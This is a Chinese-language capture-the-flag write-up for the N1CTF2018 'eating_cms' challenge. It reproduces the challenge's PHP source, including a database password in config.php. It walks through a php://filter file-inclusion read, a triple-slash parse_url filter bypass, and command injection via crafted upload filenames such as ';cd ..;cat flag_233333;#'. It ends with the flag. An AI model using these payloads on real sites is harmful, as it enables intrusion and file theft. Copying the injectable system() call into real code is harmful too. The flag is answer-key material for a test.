






# N1CTF2018-eating_cms

一进去是一个登录页面



盲猜有注册页面，访问/register.php，然后随便注册一个账号，发现admin注册不了，随便换一个

```
username：hack
password：123
```

登录成功后自动跳转到一个网页


发现此时的url有点奇怪

```
http://a114f556-b6b8-4149-af74-4b56d7c40da9.node5.buuoj.cn:81/user.php?page=guest
```

猜测有这里存在文件包含漏洞，测试一下之后发现存在，使用伪协议读取源码

```
/user.php?page=php://filter/convert.base64-encode/resource=index
```

user.php

```
<?php
require_once("function.php");
if( !isset( $_SESSION['user'] )){
    Header("Location: index.php");
 
}
if($_SESSION['isadmin'] === '1'){
    $oper_you_can_do = $OPERATE_admin;
}else{
    $oper_you_can_do = $OPERATE;
}
//die($_SESSION['isadmin']);
if($_SESSION['isadmin'] === '1'){
    if(!isset($_GET['page']) || $_GET['page'] === ''){//需要page为空
        $page = 'info';
    }else {
        $page = $_GET['page'];
    }
}
else{
    if(!isset($_GET['page'])|| $_GET['page'] === ''){
        $page = 'guest';
    }else {
        $page = $_GET['page'];
        if($page === 'info')
        {
//            echo("<script>alert('no premission to visit info, only admin can, you are guest')</script>");
            Header("Location: user.php?page=guest");
        }
    }
}
filter_directory();
//if(!in_array($page,$oper_you_can_do)){
//    $page = 'info';
//}
include "$page.php";
?>
```

index.php

```
<?php
require_once "function.php";
if(isset($_SESSION['login'] )){
    Header("Location: user.php?page=info");
}
else{
    include "templates/index.html";
}
?>
```

---

function.php

```
<?php
session_start();
require_once "config.php";
function Hacker()
{
    Header("Location: hacker.php");
    die();
}
 
 
function filter_directory()
{
    $keywords = ["flag","manage","ffffllllaaaaggg"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);//把url分段解析，是数组的类型
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))//不能存在特殊字符
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}
 
function filter_directory_guest()
{
    $keywords = ["flag","manage","ffffllllaaaaggg","info"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}
 
function Filter($string)//也就是一个过滤类
{
    global $mysqli;
    $blacklist = "information|benchmark|order|limit|join|file|into|execute|column|extractvalue|floor|update|insert|delete|username|password";
    $whitelist = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'(),_*`-@=+><";
    for ($i = 0; $i < strlen($string); $i++) {
        if (strpos("$whitelist", $string[$i]) === false) {
            Hacker();
        }
    }
    if (preg_match("/$blacklist/is", $string)) {
        Hacker();
    }
    if (is_string($string)) {
        return $mysqli->real_escape_string($string);
    } else {
        return "";
    }
}
 
function sql_query($sql_query)
{
    global $mysqli;
    $res = $mysqli->query($sql_query);
    return $res;
}
 
function login($user, $pass)
{
    $user = Filter($user);//对用户名进行了过滤
    $pass = md5($pass);//密码进行了加密
    $sql = "select * from `albert_users` where `username_which_you_do_not_know`= '$user' and `password_which_you_do_not_know_too` = '$pass'";
    echo $sql;
    $res = sql_query($sql);
//    var_dump($res);
//    die();
    if ($res->num_rows) {
        $data = $res->fetch_array();
        $_SESSION['user'] = $data[username_which_you_do_not_know];
        $_SESSION['login'] = 1;
        $_SESSION['isadmin'] = $data[isadmin_which_you_do_not_know_too_too];
        return true;
    } else {
        return false;
    }
    return;
}
 
function updateadmin($level,$user)
{
    $sql = "update `albert_users` set `isadmin_which_you_do_not_know_too_too` = '$level' where `username_which_you_do_not_know`='$user' ";
    echo $sql;
    $res = sql_query($sql);
//    var_dump($res);
//    die();
//    die($res);
    if ($res == 1) {
        return true;
    } else {
        return false;
    }
    return;
}
 
function register($user, $pass)
{
    global $mysqli;
    $user = Filter($user);
    $pass = md5($pass);
    $sql = "insert into `albert_users`(`username_which_you_do_not_know`,`password_which_you_do_not_know_too`,`isadmin_which_you_do_not_know_too_too`) VALUES ('$user','$pass','0')";
    $res = sql_query($sql);
    return $mysqli->insert_id;
}
 
function logout()
{
    session_destroy();
    Header("Location: index.php");
}
 
?>
```

---

config.php

```
<?php
error_reporting(E_ERROR | E_WARNING | E_PARSE);
define(BASEDIR, "/var/www/html/a);//定义的常量
define(FLAG_SIG, 1);//这个也是
$OPERATE = array('userinfo','upload','search');
$OPERATE_admin = array('userinfo','upload','search','manage');
$DBHOST = "localhost";
$DBUSER = "root";
$DBPASS = "Nu1LCTF2018!@#qwe";
//$DBPASS = "";
$DBNAME = "N1CTF";
$mysqli = @new mysqli($DBHOST, $DBUSER, $DBPASS, $DBNAME);
if(mysqli_connect_errno()){
        echo "no sql connection".mysqli_connect_error();
        $mysqli=null;  //文件大概就是链接数据库的操作
        die();
}
?>
```

---

hacker.php

```
<?php
    include("templates/hacker.html");
?>
```

---

重点关注这段有flag的代码

```
function filter_directory_guest()
{
    $keywords = ["flag","manage","ffffllllaaaaggg","info"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}
```

```
parse_url() 解析 URI，返回其组成部分（如 path、query 等）
parse_str() 将查询字符串解析为关联数组 $query（例如 ["name" => "test", "id" => "123"]）


举个例子
http://example.com/page?file=flag.txt
```

- `parse_url()` 解析出 `query` 部分为 `file=flag.txt`。
- `parse_str()` 将其转换为 `["file" => "flag.txt"]`。

很明显这里要我们去读取这几个和flag有关的文件，但是这里会使用parse_url() parse_str()这两个函数，先进行解析，然后使用黑名单过滤，伪协议访问会被过滤掉，直接到hacker的界面，然后我们就要想如何绕过这两个函数

```
filter_directory();

include "$page.php";
```

---

## parse_url漏洞

有一个办法是使parse_url解析出错，从而无法进入下面的foreach判断。

只要在user.php前面加上三个/即可绕过。

```
///user.php?page=php://filter/convert.base64-encode/resource=ffffllllaaaaggg
```

ffffllllaaaaggg.php

```
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}else {
    echo "you can find sth in m4aaannngggeee"; 
}
?>
```

很明显提示我们去读m4aaannngggeee的源码

---

m4aaannngggeee.php

```
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}
include "templates/upload.html";
 
?>
```

然后发现这里给了一个upload的页面。



随便上传了几下发现是个假页面

用伪协议读取以下upllloadddd的源码



upllloadddd.php

```
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/";
$filename = $_FILES['file']['name'];
if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success<br />";
echo $filename;
$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");
echo "</img>";
if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
}
?>
```

这里有个很明显的rce漏洞

```
$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");

并且这里还会输出
echo "</img>";
```

这里会对我们的文件名进行命令执行，然后进行输出，但是这里他是对前后进行拼接，我们在这里传入;，让前后的命令分隔开，然后相当于拿到了shell

但是这里上传文件是假的，我们尝试去url一下我们之前的文件发现m4aaannngggeee有东西，也能进行文件上传



我们在这里上传然后抓包，修改filename为`;ls`试试，这里也可以改为`;ls;#`这样可以注释掉后面的base64编码语句，就不用我们去解码了，我这里用的是第一种。



```
YXNzZXJ0CmJhY2tfYXNzZXJ0CmNvbmZpZy5waHAKZXJyb3JfcGFyYW1ldGVyLnBocApmZmZmbGxsbGFhYWFnZ2cucGhwCmZ1bmN0aW9uLnBocApndWVzdC5waHAKaGFja2VyLnBocApoYWNrZXIyLnBocAppbmRleC5waHAKaW5mby5waHAKbG9naW4ucGhwCmxvZ28ucG5nCm00YWFhbm5uZ2dnZWVlLnBocApyZWdpc3Rlci5waHAKdGVtcGxhdGVzCnVwZGF0ZWFkbWluLnBocAp1cGRhdGVhZG1pbi5waHB+CnVwZGF0ZWFkbWluMjMzMzMzMzMzMzMzMzMzLnBocAp1cGxsbG9hZGRkZC5waHAKdXBsb2FkX2IzYmIyY2ZlZDYzNzFkZmViMmRiMWRiY2NlYjEyNGQzCnVzZXIucGhwCg==
```

解码

```
assert
back_assert
config.php
error_parameter.php
ffffllllaaaaggg.php
function.php
guest.php
hacker.php
hacker2.php
index.php
info.php
login.php
logo.png
m4aaannngggeee.php
register.php
templates
updateadmin.php
updateadmin.php~
updateadmin233333333333333.php
upllloadddd.php
upload_b3bb2cfed6371dfeb2db1dbcceb124d3
user.php
```

可以发现成功执行命令

然后尝试ls /发现应该是过滤了/，ls ../也不行。

那么如何查看根目录呢，因为是linux cd ..就可以了

```
;cd ..;ls;#
```



发现flag_233333

读flag

```
;cd ..;cat flag_233333;#
```

拿到flag

```
flag{ad7c2097-cf50-4277-b4a0-743025998689}
```

